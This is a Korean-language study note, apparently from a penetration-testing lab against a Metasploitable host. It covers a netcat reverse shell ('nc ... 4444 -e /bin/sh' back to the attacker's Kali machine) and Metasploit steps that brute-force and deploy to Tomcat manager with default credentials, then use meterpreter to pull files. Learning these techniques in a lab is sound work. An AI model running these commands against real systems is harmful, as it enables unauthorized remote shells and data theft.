 ## 리버스 컨넥션 (Reverse Connection)
* 침투한 서버가 역으로 공격자에게 권한을 주는 것
  * 공격자 (포트 열람)
  * 침투한 서버 (웹쉘)
* 칼리
  * nc -lvp 4444
    * netcat: 소캣통신 도구
    * 4444 포트를 listening 함
* 침투한 서버 (메타에 있는 웹쉘)
  * nc 192.168.75.128 4444 -e /bin/sh
    * -e 옵션 -> 파일 또는 전송한다는 것
    * /bin/sh -> 쉘 권한
    * 즉 쉘 권한을 4444포트로 전송해달라는 것
* 거의 모든 악성코드는 이렇게 reverse connection 방식으로 함

## 메타스플로잇 공격?
* sudo msfdb init
  * 메타스플로잇 프레임워크 초기화
* sudo msfconsole
  * payloads
    * 접점? 
  * encoders
    * 난독화
  * search tomcat
    * 27  auxiliary/scanner/http/tomcat_mgr_login                                          normal     No     Tomcat Application Manager Login Utility
    * use 27
      * show options
        * required -> 채워야 하는 옵션
        * set RHOSTS 192.168.75.131
          * RHOSTS: 아이피를 체크하는 모듈?
        * set RPORT 8180
        * set STOP_ON_SUCCESS true
          * 설정 안하면 안멈춤 (뭐가?)
        * exploit
          * 설정된 문자열로 공격!
    * tomcat_mgr_deploy
      * use 6
      * show options
        * Module options
        * Payload options
      * set HttpPassword tomcat
      * set HttpUsername tomcat
      * set RHOSTS 192.168.75.131
      * set RPORT 8180
      * exploit
        * war 파일 생성
          * L1aO6bYp0JKCmCPZUWTaqGhe6unobC.war
        * meterpreter > 에서 입력할 명령어
          * getuid
          * sysinfo
          * exit
          * shell
  * 악성코드를 심은 PC에 파일을 가져오고 싶으면?
    * nc 사용!
    * 메타프리터에서 제공하는 것을 사용하면 좋음
      * search -f *.txt
      * download /var/www/twiki/readme.txt
      * upload /var/www/twiki/readme.txt

